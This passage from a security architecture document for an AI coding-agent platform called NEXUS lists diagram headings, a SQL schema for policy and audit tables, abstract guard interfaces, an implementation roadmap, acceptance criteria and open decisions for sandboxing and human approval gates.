

### 7. Filesystem Security Architecture



### 8. Terminal Security Pipeline



### 9. Network Security Architecture



### 10. Secret Access & Memory Zeroization



### 11. Docker Sandbox Architecture



### 12. Trust Zones Model



### 13. Mobile Security Boundary



### 14. Emergency Lockdown Architecture



### 15. Incident Response Workflow



### 16. Complete Zero-Trust Runtime Security Architecture



---

## 52. Database Model & Security Entities

```sql
-- Active security policies and versions
CREATE TABLE IF NOT EXISTS security_policies (
    id TEXT PRIMARY KEY,               -- e.g. "pol_default_sandbox"
    name TEXT NOT NULL,
    scope TEXT NOT NULL,               -- "SYSTEM", "USER", "WORKSPACE", "PROJECT"
    scope_id TEXT NOT NULL,
    version INTEGER NOT NULL DEFAULT 1,
    policy_toml TEXT NOT NULL,
    is_active BOOLEAN NOT NULL DEFAULT 1,
    created_at TIMESTAMP NOT NULL,
    updated_at TIMESTAMP NOT NULL
);

-- Real-time security decision audit trail
CREATE TABLE IF NOT EXISTS security_decision_logs (
    id TEXT PRIMARY KEY,               -- e.g. "sec_dec_98a7b6c5"
    execution_id TEXT NOT NULL,
    task_id TEXT,
    principal_id TEXT NOT NULL,
    principal_type TEXT NOT NULL,
    action TEXT NOT NULL,              -- e.g. "tool.run_command", "fs.write"
    resource TEXT NOT NULL,            -- Canonical file path or command string
    decision TEXT NOT NULL,            -- "ALLOW", "DENY", "REQUIRE_APPROVAL", "SANDBOX"
    risk_level TEXT NOT NULL,          -- "LOW", "MEDIUM", "HIGH", "CRITICAL"
    policy_id TEXT,
    reason TEXT NOT NULL,
    evaluated_at TIMESTAMP NOT NULL
);

-- Tamper-resistant cryptographic log chain
CREATE TABLE IF NOT EXISTS audit_log_chain (
    sequence_id INTEGER PRIMARY KEY AUTOINCREMENT,
    log_id TEXT UNIQUE NOT NULL,
    prev_entry_sha256 TEXT NOT NULL,
    current_entry_sha256 TEXT NOT NULL,
    payload_json TEXT NOT NULL,
    created_at TIMESTAMP NOT NULL
);
```

---

## 53. Core Interface Contracts & APIs

```python
class ISecurityContextService(ABC):
    """Generates and validates unforgeable execution security contexts."""

    @abstractmethod
    def create_context(
        self,
        principal_id: str,
        principal_type: PrincipalType,
        project_id: str,
        task_id: str | None = None,
    ) -> SecurityContext: ...


class IPolicyDecisionEngine(ABC):
    """Central authority evaluating action authorization and risk."""

    @abstractmethod
    async def evaluate(
        self,
        context: SecurityContext,
        action: SecurityAction,
    ) -> PolicyDecision: ...


class IFilesystemGuard(ABC):
    """Enforces path canonicalization and workspace sandbox boundaries."""

    @abstractmethod
    def validate_path_access(
        self,
        target_path: Path,
        project_root: Path,
        access_mode: FileAccessMode,
    ) -> Path: ...


class ICommandGuard(ABC):
    """Parses and sanitizes shell commands for direct subprocess dispatch."""

    @abstractmethod
    def sanitize_command(
        self,
        command_string: str,
        project_path: Path,
    ) -> list[str]: ...
```

---

## 54. Phased Implementation Roadmap

```
Phase 1: Security Context & Capability Matrix
  ├── Define SecurityContext schemas and token validators
  └── Build static Capability grant definitions for all Agent archetypes

Phase 2: Filesystem & Path Canonicalization PEP
  ├── Build PathCanonicalizer with symlink and boundary guards
  └── Enforce path validation across File Read/Write tools

Phase 3: Command & Subprocess Sanitizer PEP
  ├── Implement AST command tokenizer and executable allowlist
  └── Build environment scrubber for child processes

Phase 4: Centralized Policy Decision Engine & Risk Scorer
  ├── Implement hierarchical policy rule evaluator
  └── Connect dynamic risk scoring to Desktop/Mobile approval gates

Phase 5: Network, SSRF & DNS Rebinding PEP
  ├── Implement Validating HTTP Transport
  └── Enforce domain allowlist and private IP blocking

Phase 6: Lockdown, Incident Response & Tamper-Resistant Audit
  ├── Build Emergency Lockdown controller and process tree supervisor
  └── Implement SHA-256 rolling hash chain on audit logs
```

---

## 55. Architectural Acceptance Criteria

- [x] Zero-trust security model defined with all security principals categorized.
- [x] Immutable `SecurityContext` propagation defined across all execution boundaries.
- [x] Policy Decision Engine (PDP) and Policy Enforcement Points (PEPs) formally decoupled.
- [x] Out-of-band security model established (system prompts explicitly decoupled from security).
- [x] Path canonicalization and workspace containment algorithms specified.
- [x] Terminal command injection defenses and AST parser specified.
- [x] Network egress, DNS rebinding, and SSRF guards defined.
- [x] Subprocess environment sanitization and secret scrubbing specified.
- [x] Dynamic 4-tier risk classification and human approval flows integrated.
- [x] Emergency lockdown controller and process tree supervisor designed.
- [x] 16 comprehensive Mermaid architecture diagrams covering all security dimensions.

---

## 56. Open Decisions & TBDs

- **TBD-01: Windows AppContainer Isolation**: Evaluate wrapping child compiler and test processes inside native Windows AppContainer sandboxes for kernel-enforced process isolation.
- **TBD-02: Hardware Touch Approval via FIDO2**: Evaluate optional USB security key (YubiKey) touch prompts for `CRITICAL` risk tier approvals.
- **TBD-03: eBPF Network Enforcement on Linux**: Evaluate eBPF socket filters for future Linux workstation target deployments.

---

## 57. Final Architecture Summary

The NEXUS Security Policy Enforcement & Zero-Trust Runtime Architecture provides a hardened, local-first operational perimeter. By enforcing:
- **Zero-trust capability verification at every layer**
- **Out-of-band deterministic policy decision points**
- **Strict workspace path canonicalization and shell argument injection defenses**
- **Subprocess environment scrubbing and memory zeroization**
- **Risk-calibrated human authorization gates**

NEXUS guarantees that autonomous AI software engineering workflows execute with absolute safety, predictability, and containment on the developer's machine.

---

## 58. Next Recommended Architecture Document

To complete the foundational architecture specifications for the NEXUS platform, the single next logical architecture document is:

**`NEXUS_DESKTOP_CLIENT_AND_LOCAL_GATEWAY_ARCHITECTURE.md`**  
*(Focusing on the Windows desktop shell lifecycle, Tauri/Electron process bridge, local HTTP/WebSocket gateway hosting, background daemon management, IPC communication, and native OS integration).*
